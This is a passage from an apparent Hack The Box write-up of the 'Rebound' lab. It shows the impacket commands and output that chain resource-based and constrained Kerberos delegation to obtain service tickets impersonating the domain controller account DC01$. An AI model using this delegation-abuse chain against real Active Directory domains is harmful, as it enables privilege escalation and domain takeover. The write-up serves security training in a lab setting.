 ```bash
AccountName   AccountType                          DelegationType              DelegationRightsTo    
------------  -----------------------------------  --------------------------  ---------------------
ldap_monitor  Person                               Resource-Based Constrained  delegator$            
delegator$    ms-DS-Group-Managed-Service-Account  Constrained                 http/dc01.rebound.htb
```

**Get TGS for `DC01$` on `delegator$`**

Now, the `ldap_monitor` account is able to request a **TGS** as any user on `delegator$`. We're going to target the `DC01$` account, because the `Administrator` account is marked as sensitive, which gives the `NOT_DELEGATED`.

Let's get a **TGS** as `DC01$` on `delegator$`:

```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ impacket-getST 'rebound.htb/ldap_monitor:[REDACTED]' -spn 'browser/dc01.rebound.htb' -impersonate 'DC01$'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for user
[*] Impersonating DC01$
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in DC01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache
```

> **Note:** There is a clean up script resetting delegation settings, so if this doesn't work, We'll make sure to re-run the `impacket-rbcd` command again.

This saves a ticket as the `DC01$` account for `delegator$` into a file, and this time it is forwardable:

```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ impacket-describeTicket 'DC01\$@browser_dc01.rebound.htb@REBOUND.HTB.ccache' | grep 'Flags'
[*] Flags                         : (0x40a10000) forwardable, renewable, pre_authent, enc_pa_rep
```

This is what was missing earlier!

Now `delegator$` can use this ticket along with the `Constrained Delegation` to get a ST on `DC01` as `DC01`.

```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ impacket-getST -spn http/dc01.rebound.htb -impersonate 'DC01$' 'rebound.htb/delegator$' -hashes :[HASH_REDACTED] -additional-ticket DC01\$@browser_dc01.rebound.htb@REBOUND.HTB.ccache 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating DC01$
[*]     Using additional ticket DC01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache instead of S4U2Self
[*] Requesting S4U2Proxy
[*] Saving ticket in DC01$@http_dc01.rebound.htb@REBOUND.HTB.ccache
```
